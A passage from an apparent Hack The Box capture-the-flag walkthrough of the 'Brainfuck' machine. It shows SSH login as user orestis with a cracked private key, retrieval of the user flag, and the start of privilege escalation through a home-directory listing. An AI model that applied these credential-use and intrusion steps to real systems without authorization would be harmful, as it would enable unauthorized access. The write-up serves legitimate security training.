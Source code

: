 It cracked the password! Let’s use the key and password to SSH into orestis’s machine.

First change the permissions on the encrypted RSA private key.

```text
chmod 600 id_rsa
```

Then SSH into the machine.

```text
ssh -i id_rsa orestis@brainfuck.htb
```

We finally gained an initial foothold!

![](../images/max/676/1*tm0f760_eE_He2ZNOLGBLQ.png)

Grab the user.txt flag.

![](../images/max/470/1*Qp_AiRIKHm0FFQdpu3SAjA.png)

We need to escalate privileges.

## Privilege Escalation <a id="2617"></a>

List the files in orestis’s home directory.

```text
orestis@brainfuck:~$ ls -la
total 60
drwxr-xr-x 7 orestis orestis 4096 Apr 29  2017 .
drwxr-xr-x 3 root    root    4096 Apr 13  2017 ..
-rw------- 1 root    root       1 Dec 24  2017 .bash_history
-rw-r--r-- 1 orestis orestis  220 Apr 13  2017 .bash_logout
-rw-r--r-- 1 orestis orestis 3771 Apr 13  2017 .bashrc
drwx------ 2 orestis orestis 4096 Apr 29  2017 .cache
drwxr-xr-x 3 root    root    4096 Apr 17  2017 .composer
-rw------- 1 orestis orestis  619 Apr 29  2017 debug.txt
-rw-rw-r-- 1 orestis orestis  580 Apr 29  2017 encrypt.sage
drwx------ 3 orestis orestis 4096 Apr 29  2017 mail
-rw------- 1 orestis orestis  329 Apr 29  2017 output.txt
-rw-r--r-- 1 orestis orestis  655 Apr 13  2017 .profile
drwx------ 8 orestis orestis 4096 Apr 29  2017 .sage
drwx------ 2 orestis orestis 4096 Apr 17  2017 .ssh
-r-------- 1 orestis orestis   33 Apr 29  2017 user.txt
```
